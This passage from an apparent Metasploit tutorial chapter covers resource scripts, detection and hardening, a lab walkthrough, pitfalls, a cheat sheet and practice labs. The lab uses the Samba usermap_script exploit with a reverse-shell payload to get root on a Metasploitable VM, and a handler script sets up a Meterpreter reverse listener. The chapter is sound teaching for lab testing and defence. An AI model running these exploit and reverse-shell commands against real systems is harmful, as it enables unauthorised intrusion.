`jobs -k <id>` stops one job; `jobs -K` stops all. A dangling handler job from an earlier attempt is a common reason "the port is already in use" — check `jobs` when a listener won't bind.

### Resource scripts — automation

A **resource script** (`.rc` file) is just a list of `msfconsole` commands, optionally with embedded Ruby, run in sequence. It turns a repeatable setup into one command — the poor man's automation that every operator uses to avoid re-typing the same 8 lines each morning.

Create `handler.rc`:

```
use exploit/multi/handler
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST 10.10.14.7
set LPORT 4444
set ExitOnSession false
exploit -j -z
```

Run it two ways:

```bash
# At launch:
msfconsole -q -r handler.rc

# Or from inside the console:
msf6 > resource handler.rc
```

`makerc` does the reverse — it writes every command you have typed this session into a `.rc` file, so you can "record" a working workflow and replay it:

```
msf6 > makerc /root/engagement.rc
```

Resource scripts can even contain Ruby (`<ruby> ... </ruby>` blocks) for loops and logic, but a plain list of commands covers the vast majority of real automation. This is the on-ramp to the deeper automation covered in Chapter 6.

---

## Part 11: Detection & Defense Angle

Everything above is offense. A professional understands both sides, because the same knowledge that makes you effective on a test makes you effective at catching an intruder. This section consolidates the defender's view of Metasploit activity.

### What Metasploit looks like on the wire and on the host

Metasploit is *not* stealthy by default — it is a testing framework, not a bespoke C2 built for evasion. Default artifacts a defender can hunt:

- **Default listener ports.** `LPORT 4444` is the framework default and a well-known IOC. A connection to an internal host on 4444/tcp is a classic Metasploit tell. (Operators change it precisely because defenders watch it.)
- **Meterpreter TLS fingerprint.** Staged Meterpreter over `reverse_tcp` first pulls a stage; the `reverse_https` variants use a TLS certificate whose default fields and JA3/JA3S hashes have historically been fingerprintable. Modern detection stacks ship Suricata/Zeek signatures for known Meterpreter TLS behaviour.
- **Loud scanning.** `db_nmap` and the auxiliary scanners generate high-fanout, high-rate connection patterns (many hosts, sequential ports) that NetFlow/Zeek `conn.log` analytics flag as horizontal or vertical scanning.
- **The stager download.** A staged payload fetches the second stage over the same channel immediately after connecting — a short outbound connection followed by a larger inbound transfer, then long-lived beaconing.
- **On-host artifacts.** Payload processes, injected threads, and post-module actions (a sudden `hashdump`, service creation for persistence, `net user` enumeration) leave Windows Event Log and Sysmon traces.



### Concrete detections a blue team deploys

| Signal | Where it shows | Detection idea |
|---|---|---|
| Reverse shell to :4444 | Firewall / proxy / Zeek conn.log | Alert on internal-host outbound to uncommon high ports, esp. 4444/4445 |
| Meterpreter TLS | Zeek ssl.log / Suricata | JA3/JA3S hashes and default cert fields for known Meterpreter |
| Nmap-style sweep | NetFlow / Zeek | Many-destinations, few-packets fanout from one source in a short window |
| `hashdump` / LSASS access | Sysmon EID 10, Windows 4688 | Process accessing lsass; suspicious child processes of exploited service |
| Service persistence | Sysmon EID 7/13, Windows 7045 | New service creation, autorun registry writes |
| Process injection | Sysmon EID 8 (CreateRemoteThread) | Injected threads into legitimate processes |

**IR use case:** if you find a listener on 4444, a short outbound TCP session immediately followed by a larger inbound transfer, and then LSASS access from an unexpected process, you are very likely looking at a staged Meterpreter compromise — and knowing the offensive workflow above tells you exactly which host artifacts to collect next (injected process, loaded extensions, any `.rc`-style repeated actions).

### Hardening that blunts Metasploit specifically

- **Patch the exploitable service** — the module can't fire if the bug is gone. MS17-010 modules are inert on a patched host.
- **Egress filtering** — default-deny outbound so a reverse shell has nowhere to call home; this alone defeats a large fraction of naive payloads.
- **Application allow-listing / EDR** — stops the payload process or the injected thread from running or persisting.
- **Network segmentation** — limits the pivoting that Chapter 6 covers.
- **Monitor the defaults** — because so many operators never change 4444, the default port, and known Meterpreter signatures, monitoring the defaults catches the unskilled majority cheaply.

---

## Part 12: Hands-On Lab — From Fresh Console to a Scan and a Shell

This lab is fully reproducible on **hardware you own**. Everything is lab-scoped. Do not point any command at a system you are not authorised to test.

### Lab topology

- **Attacker:** Kali Linux VM, IP `10.10.14.7` (adjust to yours — find it with `ip a`).
- **Target:** the intentionally-vulnerable **Metasploitable 3** or **Metasploitable 2** VM, or a purpose-built Windows lab box, IP `10.10.10.5`. Metasploitable is free and designed exactly for this.
- Both on a host-only / isolated NAT network with no route to anything real.



### Step 0 — Prepare the framework and database

```bash
sudo systemctl start postgresql
sudo msfdb init
msfconsole -q
```

```
msf6 > db_status
[*] Connected to msf. Connection type: postgresql.
msf6 > workspace -a lab_metasploitable
[*] Added workspace: lab_metasploitable
[*] Workspace: lab_metasploitable
```

### Step 1 — Recon into the database

```
msf6 > db_nmap -sV 10.10.10.5
[*] Nmap: Starting Nmap 7.94 ...
[*] Nmap: 21/tcp   open  ftp     vsftpd 2.3.4
[*] Nmap: 22/tcp   open  ssh     OpenSSH 4.7p1
[*] Nmap: 139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X
[*] Nmap: 445/tcp  open  microsoft-ds Samba smbd 3.X - 4.X
[*] Nmap: 3306/tcp open  mysql   MySQL 5.0.51a
[*] Nmap: Nmap done: 1 IP address (1 host up)

msf6 > hosts

Hosts
=====
address      mac  name  os_name  os_flavor  purpose  info  comments
-------      ---  ----  -------  ---------  -------  ----  --------
10.10.10.5              Linux                        server

msf6 > services -p 445
Services
========
host         port  proto  name          state  info
----         ----  -----  ----          -----  ----
10.10.10.5   445   tcp    microsoft-ds  open   Samba smbd 3.X - 4.X
```

The scan populated the `hosts` and `services` tables automatically. Everything downstream reads from here.

### Step 2 — An auxiliary scanner (no payload) to confirm SMB detail

Teach the tool from scratch: `auxiliary/scanner/smb/smb_version` is a **scanner** module — an auxiliary that connects to SMB and reports the dialect, OS and domain without exploiting anything. It is the safe, quiet way to confirm exactly what you are dealing with before choosing an exploit.

```
msf6 > use auxiliary/scanner/smb/smb_version
msf6 auxiliary(scanner/smb/smb_version) > show options

Module options (auxiliary/scanner/smb/smb_version):
   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   RHOSTS                    yes       The target host(s)
   THREADS  1                yes       The number of concurrent threads

msf6 auxiliary(scanner/smb/smb_version) > set RHOSTS 10.10.10.5
RHOSTS => 10.10.10.5
msf6 auxiliary(scanner/smb/smb_version) > run

[*] 10.10.10.5:445 - SMB Detected (versions:1) (preferred dialect:...)
[*] 10.10.10.5:445 - Host could not be identified: Unix (Samba 3.0.20-Debian)
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

Note the flow: `use` → `show options` → `set RHOSTS` → `run`. That four-beat rhythm is *every* module. The result is also written back to the database as a note on the host.

### Step 3 — Select an exploit, read it, and check

The Samba 3.0.20 banner points at the `usermap_script` command-injection vulnerability (CVE-2007-2447) — an `excellent`-rank exploit because it is command injection, not memory corruption, so it cannot crash the box.

```
msf6 > search usermap_script

Matching Modules
================
   #  Name                                    Disclosure Date  Rank       Check  Description
   -  ----                                    ---------------  ----       -----  -----------
   0  exploit/multi/samba/usermap_script      2007-05-14       excellent  No     Samba "username map script" Command Execution

msf6 > use 0
msf6 exploit(multi/samba/usermap_script) > info
...
  Rank: Excellent
Description:
  This module exploits a command execution vulnerability in Samba
  versions 3.0.20 through 3.0.25rc3 ... by specifying a username
  containing shell meta characters...
```

Reading `info` confirms it matches our target's version and is safe to run. This module's `Check` column is `No`, so we cannot pre-test — we rely on the version match instead.

### Step 4 — Choose a payload and set options

Because this is a `multi/` exploit against a Unix target, a Unix reverse shell fits:

```
msf6 exploit(multi/samba/usermap_script) > show payloads
   ...
   cmd/unix/reverse
   cmd/unix/reverse_netcat
   cmd/unix/bind_netcat
   ...

msf6 exploit(multi/samba/usermap_script) > set PAYLOAD cmd/unix/reverse
PAYLOAD => cmd/unix/reverse
msf6 exploit(multi/samba/usermap_script) > setg LHOST 10.10.14.7
LHOST => 10.10.14.7
msf6 exploit(multi/samba/usermap_script) > set RHOSTS 10.10.10.5
RHOSTS => 10.10.10.5
msf6 exploit(multi/samba/usermap_script) > show missing
Nothing missing.
```

`setg LHOST` once means every subsequent module already knows your attacker IP — the datastore pattern from Part 6 in action.

### Step 5 — Exploit

```
msf6 exploit(multi/samba/usermap_script) > exploit

[*] Started reverse TCP double handler on 10.10.14.7:4444
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo 8sh3n2...
[*] Writing to socket A
[*] Writing to socket B
[*] Command shell session 1 opened (10.10.14.7:4444 -> 10.10.10.5:41234)

id
uid=0(root) gid=0(root)
hostname
metasploitable
```

You have a **root command shell** — session 1. Note the connect-back to `10.10.14.7:4444`, exactly the IOC a defender watches for (Part 11).

### Step 6 — Manage the session

```
# background the shell without killing it (Ctrl-Z, then y)
[*] Backgrounding session 1...
msf6 exploit(multi/samba/usermap_script) > sessions

Active sessions
===============
  Id  Type            Information  Connection
  --  ----            -----------  ----------
  1   shell cmd/unix               10.10.14.7:4444 -> 10.10.10.5:41234

msf6 > sessions -i 1        # jump back in
msf6 > sessions -k 1        # kill it when done
```

### Step 7 — Save the workflow as a resource script

```
msf6 > makerc /root/lab_samba.rc
[*] Saving last 12 commands to /root/lab_samba.rc ...
```

Now `msfconsole -q -r /root/lab_samba.rc` replays the entire lab. You have gone from a fresh console to recon-in-database to a scanner to a ranked exploit to a root shell to a repeatable script — the full Part-1 loop.

---

## Part 13: Common Pitfalls and How to Avoid Them

| Pitfall | Symptom | Fix |
|---|---|---|
| Database not connected | No `hosts`/`services`, slow search | `sudo msfdb init`; check `db_status` |
| `RHOST` vs `RHOSTS` | "missing required option" though you set it | Use plural `RHOSTS` on modern modules; run `show missing` |
| Stale global datastore | Payload calls back to an old IP | `unsetg LHOST` or `setg` the correct one; audit with `get` |
| Wrong/unset payload | Exploit "works" but no session | `set PAYLOAD` explicitly; confirm with `show options` |
| Handler port in use | "address already in use" | `jobs`/`jobs -k` to kill a dangling handler |
| Low-rank exploit on prod | Service crash / bluescreen | Prefer `excellent`/`great`; use `check`; get change approval |
| Wrong target build | Exploit fires but fails/crashes | `show targets`, set it explicitly from your enumeration |
| Trusting auto-target blindly | Silent failure | Fingerprint first (Chapter 2), then `set TARGET` |
| LHOST behind NAT | Reverse shell never arrives | Set LHOST to the routable/interface IP the target can reach; forward LPORT |
| Forgetting `background` | Killing a shell to run a scan | Ctrl-Z / `background`, then `sessions -i` |

A meta-pitfall: treating Metasploit as a magic button. Every failure above comes from not understanding one of the parts we built up — datastore, payload, target, session, job, database. The framework rewards operators who understand the engine.

---

## Part 14: Final Revision / Summary

- **Metasploit is a framework, not a button.** It decouples exploit, payload, encoder, nop and handler so any compatible payload attaches to any exploit — that pick-and-mix design is the whole point.
- **Architecture:** interfaces (`msfconsole`, `msfvenom`, RPC) → core (module manager, datastore, session/job managers) → libraries (`Rex`, `Msf::Core`) → modules on disk → PostgreSQL database.
- **Seven module types:** exploit, auxiliary, payload, encoder, nop, post, evasion. Read a module path as `type/platform/service/name`.
- **msfconsole rhythm:** `search` → `use` → `info` → `show options` → `set`/`setg` → `check` → `run`, then `sessions`/`jobs` to manage results.
- **Datastore:** module-local `set` overrides global `setg`; set `LHOST` once globally, `RHOSTS` per target. `RHOSTS` is plural.
- **Search filters** (`type:`, `platform:`, `cve:`, `rank:`, `port:`) turn tens of thousands of modules into a short, high-quality list.
- **Rank is a risk signal:** prefer `excellent`/`great`, use `check`, keep low-rank memory-corruption modules to lab or change-approved windows.
- **The database** (workspaces, `db_nmap`, `hosts`, `services`, `creds`, `loot`) turns the framework into an engagement platform with automatic scan → store → module → store loops.
- **Sessions and jobs:** `background` keeps shells alive; `exploit -j` backgrounds handlers; resource scripts (`.rc`, `makerc`) automate repeatable workflows.
- **Defenders** watch the defaults: port 4444, Meterpreter TLS fingerprints, loud scanning, stager download patterns, and on-host post-exploitation artifacts. Patching, egress filtering, EDR and segmentation blunt the framework directly.

The next chapter (Chapter 4) goes deep on the other half of the pick-and-mix: exploits, payloads, staged vs stageless in practice, sessions, and the full power of **Meterpreter** — the in-memory payload that makes post-exploitation so effective.

---

## Part 15: Cheat Sheet / Quick Reference

### Setup & database

```bash
msfconsole --version          # check version
sudo systemctl start postgresql
sudo msfdb init               # create/init database (once)
msfdb status                  # DB running & initialised?
msfconsole -q                 # launch quiet (no banner)
msfconsole -q -r file.rc      # launch and run a resource script
msfconsole -x "use ...; run"  # run commands non-interactively
```

### Inside msfconsole — selection & config

```
search type:exploit platform:windows cve:2017-0144
use <path|index>              # select a module
info                          # full module datasheet
back / previous               # deselect / switch
show options | show missing   # required settings
show targets / show payloads  # variants & compatible payloads
show advanced / show evasion
set RHOSTS 10.10.10.5         # module-local option
setg LHOST 10.10.14.7         # global option (sticky)
unset / unsetg / get NAME
```

### Execution & sessions

```
check                         # safe vuln test (if supported)
run  |  exploit               # fire the module
exploit -j                    # run as background job
exploit -z                    # run, don't auto-interact
sessions            / -i N    # list / interact
sessions -k N | -K            # kill one / all
sessions -u N                 # upgrade shell to Meterpreter
background                     # leave a session alive (Ctrl-Z)
jobs / jobs -k N / kill N     # manage background jobs
```

### Database

```
workspace -a name             # new workspace (per engagement)
db_nmap -sV -sC 10.0.0.0/24   # scan + auto-import
db_import scan.xml            # import Nmap/Nessus/etc.
hosts | services | vulns
creds | loot | notes
services -p 445 -s smb -u     # filtered service query
```

### Automation

```
makerc /path/out.rc           # record session commands to a script
resource /path/in.rc          # run a resource script
```

### Search filter keywords

```
type: platform: cve: name: path: author:
rank: arch: port: app: disclosure_date:
```

---

## Part 16: Practice Labs & Resources

Train this chapter's exact skills — driving the framework, searching modules, using the datastore and database, and managing sessions — on targets built for it:

- **TryHackMe — "Metasploit: Introduction"** and **"Metasploit: Exploitation"** rooms. The introduction room walks the exact `search`/`use`/`options`/`run` loop and the module taxonomy from this chapter; the exploitation room drives auxiliary scanners and the database.
- **TryHackMe — "Metasploit: Meterpreter"** to bridge into Chapter 4 (payloads/Meterpreter), but its early tasks reinforce session management from Part 10.
- **Metasploitable 2 and Metasploitable 3** (Rapid7's free intentionally-vulnerable VMs). The `usermap_script` Samba root shell in the lab is on Metasploitable 2 out of the box; Metasploitable 3 adds a Windows target for the exploit/target/payload workflow.
- **TryHackMe — "Blue"** and **"Ice"** — real end-to-end Metasploit boxes (EternalBlue and a media server exploit) that exercise rank, targets, payload selection and Meterpreter sessions against Windows.
- **HackTheBox — "Lame"** — the classic first HTB machine, rooted via the *same* Samba `usermap_script` module used in this chapter's lab; a perfect check that you can reproduce the workflow on an unseen box.
- **HackTheBox — "Legacy"** and **"Blue"** — MS08-067 and MS17-010 respectively, ideal for practising `show targets`, exploit rank and staged Windows payloads.
- **Rapid7 Metasploit Documentation** (docs.metasploit.com) and the in-console `help`/`info` — the authoritative reference for every command and module.

Work each target the professional way: `workspace -a` first, `db_nmap` into the database, confirm with an auxiliary scanner, read `info` before firing, prefer `check` and high ranks, and `makerc` the workflow when it works. That discipline — not memorising module names — is what this chapter is really teaching.

### Practice questions

1. Explain, in datastore terms, why `setg LHOST` followed by `set RHOSTS` in each module is more efficient — and occasionally more dangerous — than setting both locally every time. What command audits a stale global?
2. You have a Windows target confirmed as Server 2012 R2 x64 from enumeration. Walk through the exact commands to select an SMB exploit, choose the correct target build rather than trusting auto-detection, attach an x64 Meterpreter reverse payload, and background the resulting session.
3. A teammate says "just run the exploit, it's fine." The module is rank `average` and the target is a production database server. What do you check first, which command probes safely if available, and what would you require before firing?
4. Describe three distinct network- or host-level signals a blue team could use to detect the Part-12 lab workflow, and one hardening control that would defeat the reverse shell entirely.
5. Write a four-line resource script that stands up a background `multi/handler` for an x64 Meterpreter reverse_tcp payload on your attacker IP, and give the single command that launches `msfconsole` and runs it.

---

*Also on [Praneeth's portfolio](https://ping-praneeth.vercel.app/notebook/pentest-exploitation/03-metasploit-part-1-architecture-msfconsole-and-modules), with comments and the latest edits.*
